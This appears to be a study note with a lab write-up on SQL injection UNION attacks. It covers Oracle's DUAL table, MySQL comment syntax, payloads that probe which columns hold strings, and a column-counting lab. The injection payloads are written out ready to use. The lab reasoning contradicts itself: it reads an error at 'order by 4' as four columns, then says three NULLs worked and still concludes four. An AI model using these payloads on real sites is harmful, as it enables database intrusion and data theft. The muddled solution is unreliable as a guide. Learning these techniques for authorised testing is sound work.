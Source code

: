 # Database-specific syntax

On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. 
There is a built-in table on Oracle called `dual` which can be used for this purpose.
```bash
' UNION SELECT NULL FROM DUAL--
```
On MySQL, the double-dash sequence must be followed by a space. 
Alternatively, the hash character `#` can be used to identify a comment.

# Finding columns with a useful data type
 
To know which columns holds string data After you determine the number of required columns 
you can probe each column to test whether it can hold string data.
You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn.
```bash
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
If the column data type is not compatible with string data, the injected query will cause a database error, such as:
```bash
Conversion failed when converting the varchar value 'a' to data type int.
```
## Lab
**Task**: Determine number of columns<br>
**Solution**
<br>
First  `order by` function
I send `' order by 1--` until error occurs. Error occured when I send `' order by 4--` which means number of columns are 4
<br>
Second confirm I used  `UNION SELECT` I started to sent `' UNION SELECT NULL` until showing page, when I send
`' UNION SELECT NULL,NULL,NULL--` error gone. This is second confirm database has indeed 4 columns

To determine which columns hold string data I replaced `NULL` whith random data 
For example:
`' UNION SELECT 'a',NULL,NULL--` error will happen when column doesn't hold string data, error will gone when we are right columns



